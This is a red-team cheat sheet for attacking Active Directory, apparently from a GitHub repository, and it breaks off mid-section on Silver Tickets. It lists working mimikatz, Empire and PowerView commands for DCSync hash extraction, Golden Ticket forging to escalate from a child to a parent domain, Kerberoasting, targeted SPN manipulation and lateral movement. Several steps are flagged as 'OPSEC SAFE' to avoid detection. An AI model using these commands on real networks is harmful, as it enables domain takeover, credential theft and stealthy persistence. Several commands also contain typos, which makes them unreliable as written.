 Rights required to run DCSync: Administrators, Domain Admins, Enterprise Admins or DC computer account. A normal user with the following delefated rights can run DCSync as well, those are:

  - Replicating Directory Changes  
  - Replicating Directory Changes All
  - Replicating Directory Changes In Filtered Set (required in some environments)  
```mimikatz # lsadump:dcsync /domain:<DOMAIN> /user:<DOMAIN>\<USER>``` --> A user with delegated Replicating Directory Changes... used as stealth persistence.  

#### Golden Tickets

Once a domain is compromised, the KRBTGT account's password has can be obtanied. This account is used to encrypt and sign al Kerberos tickets within a domain. Those tickets can be forged to obtain access to any computer or service in the domain.  

  - Assuming a child Domain have been already compromised.  
  - ```usemodule situational_awareness/network/powerview/get_domain_trust``` --> Get all the trusts for the current domain.  
  - ```usemodule managemenet/user_to_sid``` --> Idenitfy krbtgt SID account to identify parent's domain SID.  
  - ```usemodule credentials/mimikatz/dcsync```   
  - ```set user domain\krbtft``` --> Extract krbtgt account password hash using DCSync.  
  - ```usemodule credentials/mimikatz/golden_ticket``` --> Generate Golden Ticket using empire.  
  - ``` mimikatz # kerberos::golden /admin:<USER-NAME> /domain:<CHILD-DOMAIN> /sid:<CHILD-DOMAIN-SID> /sids:<PARENT-DOMAIN-SID>-519 /krbtgt:<CHILD-DOMAIN-KRBTGT-PASSWORD-HASH> /startoffset:0 /endin:600 /renewmax:10080 /ptt``` --> Mimikatz command to create Golden Tickets.  
  - ```shell dir \\<PARENT-DOMAIN-DC>\C$``` --> Verify access.  
  - Execution of DCSync causes log entries that can be detected. While compromising the parent domain (DCSyncing agains it), use "ExtraSids (sids)" option for adding domain adding <DC-SID> and <ENTERPRISE-DC-SID>. **OPSEC SAFE**.  
  - ```usemodule lateral_movement/invoke_dcom``` --> Lateral movement in the parent domain DC.  

#### Kerberoast.  

Having a list of SPN associated with service accounts, Kerberos TGS service tickets can be requested and cracked offline. **OPSEC SAFE** and no admin needed.  
Community enhanced [JohnTheRipper](https://github.com/magnumripper/JohnTheRipper).  
  - ```usemodule credentials/invoke_kerberoast``` --> Requests Kerberos tickets using Empire.   
  - ```john --format=krb5tgs <ticket_wordlist>``` --> Crack kerberos tickets. 
  - ```PS >> Add-Type -AssemblyName System.IdentityModel```   
  - ```New-Object System.IdentityModel.Tokens.Kerberos.RequestorSecurityToken - ArgumentList 'MSSQLSvc/DATABASESERVER.domain.local:1433'``` --> Manually request a kerberos ticket.  
  - ```mimikatz # kerberos::list /expoort``` --> Export Tickets
  - ```tgsrepcrack.py``` --> Crack kerberos tickets. [tgsrepcrack](https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py).  

**Targeted Kerberoasting:** If a user with GenericWrite/GenericALL DACL rights over a target is compromised, instead of force-resetting the target's password, PowerView can be used to change target's SPN to any value, perform kerberoasting and finally repair the SPN. **OPSEC SAFE**.  

  - ```Get-DomainUser <Target> | Select serviceprincipalname``` --> Get SPN.  
  - ```Set-DomainObject -Identity <Target> -SET @{serviceprincipalname='whatever/anything'}``` --> Change SPN.  
  - ```$User = Get-DomainUser <Target>```   
  - ```$User | Get-DomainSPNTicker | fl```   
  - ```$User | Select serviceprincipalname```   
  - ```Set-DomainObject -Identity <Target> -Clear serviceprincipalname``` --> Restore

#### Silver Tickets

They are valid TGS forged tickets, so no communication with the DC occurs as they are encrypted/signed by the service/computer account. Silver tickets works only against a targeted service on a specific server. In addition, If PAC validation is not performed, it is possible to include a PAC that is unsubstantial, **OPSEC SAFE**. Requirements:  

```